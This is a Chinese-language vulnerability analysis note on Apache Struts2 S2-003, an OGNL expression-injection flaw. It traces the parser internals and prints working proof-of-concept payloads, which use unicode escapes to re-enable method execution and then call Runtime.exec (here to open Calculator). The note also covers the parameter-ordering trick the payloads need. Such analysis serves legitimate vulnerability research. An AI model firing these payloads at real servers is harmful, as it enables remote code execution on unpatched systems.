Struts2漏洞笔记之S2-003
漏洞原理
拦截器ParametersInterceptor::setParameters在执行参数装载时对参数名进行OGNL表达式解析造成表达式注入
漏洞分析
官网通告：https://cwiki.apache.org/confluence/display/WW/S2-003
版本影响：Struts 2.0.0 - Struts 2.1.8.1

复现环境
pom.xml
1 | <dependency> |
tomcat
Version: 8.5.0
选择这个版本是因为相关Payload存在特殊字符,不满足有关版本的RPC规范
漏洞分析
在第一篇S2-001分析Struts2处理用户请求时，会调用拦截器处理ParametersInterceptor.setParameters装载参数.其中在执行数据栈加载时会对传入的参数name正则判断是否存在非法字符.

之后执行stack.setValue(name, value)进一步解析name值.依次解析传入的表达式造成注入

POC解析
上方分析完具体造成Ognl注入的流程，现在是怎么构造具体POC进一步利用.
POC分为三部分
1 | 1. 对过滤字符使用unicode或八进制替代 |
0x01
针对第一部分特殊字符使用unicode或八进制替代具体逻辑需要关注Ognl.parseExpression=>JavaCharStream:readChar().
匹配u字符后做计算转换\u0023=>#

0x02
1 | ('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla) |
多个括号包裹主要是满足Ognl语法树，进行节点拆分解析表达式.默认初始化的上下文中设置xwork.MethodAccessor.denyMethodExecution=true限制表达式中的方法执行
所以此处需要将xwork.MethodAccessor.denyMethodExecution设置为false`才能进一步执行命令
打入表达式#context['xwork.MethodAccessor.denyMethodExecution']=false,分析语法树之后会得到两个Node
1 | ASTChain => #context["xwork.MethodAccessor.denyMethodExecution"] |
针对常量false会直接进行返回，最后通过ASTAssign::getValueBody渲染进children[0]

ASTChain会进一步分析语法书拆分为两个Node
1 | ASTVarRef => "#context" |
进入ASTChain根据Node对象类型执行相应的setValue方法最后会执行相应的setValueBody方法,getValue执行相应的getValueBody方法

第一次执行ASTVarRef::getValueBody,会获取到当前的context字段即OgnlContext对象上下文

第二次执行ASTPropety::setValueBody方法执行，进一步执行OgnlRuntime.setProperty,会将当前context中的xwork.MethodAccessor.denyMethodExecution设置为false

0x03
执行
1 | ('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'open\u0020/System/Applications/Calculator.app\')')(bla)(bla) |
依旧会分析先拆分为两个Node

最后执行方法成功就不一步步跟了，直接看执行exec方法时会获取上下文对象中xwork.MethodAccessor.denyMethodExecution值,如果为false就会执行方法否则返回null.

POC踩坑
分析完之后会发现必须先执行paylaod置xwork.MethodAccessor.denyMethodExecution=false，打入如下payload会先执行('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)
1 | ('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)& |

但时当去掉#myret，打入如下payload就会先执行('@java.lang.Runtime@getRuntime().exec(\'open\u0020/System/Applications/Calculator.app\')')(bla)(bla),造成明显执行失败
1 | ('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)& |

这里需要探究下TreeMap默认排序,按照key的字典顺序排序即升序，写个Demo验证写，具体可以看TreeMap源码

漏洞修复
修复见S2-005分析